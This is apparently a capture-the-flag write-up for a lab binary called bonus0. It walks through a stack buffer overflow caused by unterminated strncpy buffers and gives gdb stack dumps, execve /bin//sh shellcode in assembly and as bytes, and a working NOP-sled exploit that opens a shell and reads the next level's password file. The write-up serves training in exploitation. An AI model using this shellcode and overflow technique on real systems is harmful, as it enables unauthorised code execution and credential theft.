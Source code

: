 ## Don't forget, sentences end with a point and strings with a '\0' (bonus0)

With this [binary](source.c) we're back to good old C and classic buffer
overflows. There's three functions including _main_. The _main_ has a local
buffer of 54 bytes, and calls the function _pp_ on it. There we have two other
buffers each 20 bytes long. _pp_ will call the third function _p_ on both to
fill them with some user input. After that the two buffers are copied and
insecurely concatenated in the buffer provided by the _main_ function.

After some gdb analysis, we can see the state of the stack from _p_:

```shell
# print part of the stack from the end p's buffer
(gdb) x/56wx 0xbffffa88

0xbffffa88:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffa98:     0x61616161      0x00616161      0x00000001      0x00000000
0xbffffaa8:     0xbffffb08     [0x0804854c]     0xbffffaec      0x080486a0
0xbffffab8:     0x00000000      0x00000001      0x00000000      0x00000000
0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffad8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffae8:     0x61616161      0x62626262      0x62626262      0x62626262
0xbffffaf8:     0x62626262      0x00626262      0xb7fd0ff4      0x00000000
0xbffffb08:     0xbffffb58     [0x080485b9]     0xbffffb26      0x080498d8
0xbffffb18:     0x00000001      0x0804835d      0xb7fd13e4      0x00080000
0xbffffb28:     0x080498d8      0x080485f1      0xffffffff      0xb7e5edc6
0xbffffb38:     0xb7fd0ff4      0xb7e5ee55      0xb7fed280      0x00000000
0xbffffb48:     0x080485d9      0xb7fd0ff4      0x080485d0      0x00000000
0xbffffb58:     0x00000000     [n0xb7e454d3]    0x00000001      0xbffffbf4
```

> The values between brackets are the return addresses of every function in the
> binary.

* 0xbffffa88 -> 0xbffffaa0 (24 bytes): end of _p_'s big read buffer (all "0x61")
* 0xbffffaa8 (4 bytes): 0xbffffb08 _pp_'s ebp
* 0xbffffaac (4 bytes): 0x0804854c _p_'s return address <_pp_+46>
* 0xbffffad8 -> 0xbffffaec (20 bytes): _pp_'s first buffer (all "0x61")
* 0xbffffaec -> 0xbffffb00 (20 bytes): _pp_'s second buffer (all "0x62")
* 0xbffffb08 (4 bytes): 0xbffffb58 _main_'s ebp
* 0xbffffb0c (4 bytes): 0x080485b9 _pp_'s return address <_main_+21>
* 0xbffffb26 -> 0xbffffb58 (50 bytes): _main_'s buffer (random data)
* 0xbffffb58 (4 bytes): 0x00000000 *\_\_libc\_start\_main*'s ebp ? (look that up)
* 0xbffffb5c (4 bytes): 0xb7e454d3 _main_'s return address <*\_\_libc\_start\_main*+243>

> To get this result we passed as a first input the result of this command:
> `python -c 'print "a" * 4095'`, and this one for the second input:
> `python -c 'print "b" * 19'` so that they would not overflow their buffers.

_p_'s address cannot be overwritten since the call to `read` is safe and that
`strncpy` targets _pp_'s buffers. But this where the "unsafety" starts. This
`strncpy` call is dangerous because even though it has an upper bound equal to
the length of the buffers it writes to (20), they will not be null-terminated
by the function if the input data is at least 20 bytes long. Also, since the
buffers are next to each other in memory this means that they will be treated as
one big string even if there are null bytes after the second buffer.

This problem is not just theoretical because these buffers ares used with an
`strcpy` and an `strcat` call. Basically the first buffer is going to be copied
into _main_'s buffer. Then the null byte is going to be replaced with a space,
because yolo, and the second buffer is going to be concatenated to it.

In the best case scenario, if the two input buffers are filled with precisely 19
bytes of data and one null-byte _main_'s buffer should contain 39 bytes of data
and one null-byte:

```shell
# run the binary
./bonus0
 - 
# first input (19 bytes)
aaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes too)
bbbbbbbbbbbbbbbbbbb
# nice output
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbb
```

Now just add one byte to the first input:

```shell
# run the binary
./bonus0
 - 
# first input (20 bytes)
aaaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes)
bbbbbbbbbbbbbbbbbbb
# nice-ish output
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbb bbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

What just happened ? The 20 bytes in the first input made it so `strncpy` could
not add a terminating null byte. After the second input is given an `strcpy`
call supposedly copies the 20 bytes of data from the first buffer to _main_'s
buffer. But since it _directly_ followed by the second buffer in memory the call
really copies 39 bytes of data to the destination buffer. And it does not stop
there. Then it replaces the null byte by a space and appends the 19 bytes again
and adds an other null byte. In total this fills the 50 byte buffer with 60
bytes of data (including the null byte).

Basically this means that we can overwrite _main_'s return address. It fills it
with garbage values above, hence the sefault, but we can do something useful
with this. So we have to write 54 bytes of data before overwriting _main_'s
return address.

We could have done a ret2libc (see [level2](../level2)), but this is not
possible because we only overflow the buffer by 10 bytes and ret2libc requires
at least writing 12 bytes to be useful (to be able to pass arguments to the
called function). So what we need is a [shellcode](../shellcode) and as small as
possible. Like this [one](shellstorm_shellcode.asm) found on
[shellstorm](http://shell-storm.org/shellcode/). Although it did not work in our
case. This is because the registers and stack were already set to random values,
not to 0 as if the program just started on the shellcode. So after some
tinkering here is the final shellcode:

```nasm
section .text
global _start
_start:
xor     edx, edx    ; set edx to 0
push    edx         ; push it to the stack to end the command string
push    0x68732f2f  ; "//sh" end of the command string
push    0x6e69622f  ; "/bin" start of the command string
mov     ebx, esp    ; set ebx to the start of the command string
push    edx         ; push a NULL
push    ebx         ; push the command string's address
mov     ecx, esp    ; set ecx as a pointer to the command string's address (argv)
push    0xb         ; push 11 (execve interrupt number)
pop     eax         ; set eax to 11
int	    0x80        ; call execve
```

This will execute execve with "/bin//sh" as parameter and open us a shell. Now
the exploit:

```shell
python -c 'print "\x90" * 1000 + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x6a\x0b\x58\xcd\x80"'
python -c 'print "a" * 14 + "\xbf\xff\xee\x60"[::-1] * 1 + "a" * 1'
cat
```

The shellcode is at the end of the first input. It will be stored inside _p_'s
read buffer. We put a lot of noops operation before it because we do not know
the precise location of the buffer, so we will set _main_'s return address to
the address we got from gdb plus 128 bytes or so. This works because the layout
differences are not really big between the gdb run process and the normal
version. The read buffer is large enough for that so let's use it. So when the
binary receives this input _main_'s return address is replace with 0xbfffee60,
which is *somewhere* inside _p_'s buffer, the eip skips every noop instructions
to finally encounter and execute the shellcode.

```shell
# run the exploit script above
./exploit.bash | ./bonus0
 - 
 - 
aaaaaaaaaaaaaa`a aaaaaaaaaaaaaa`a
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
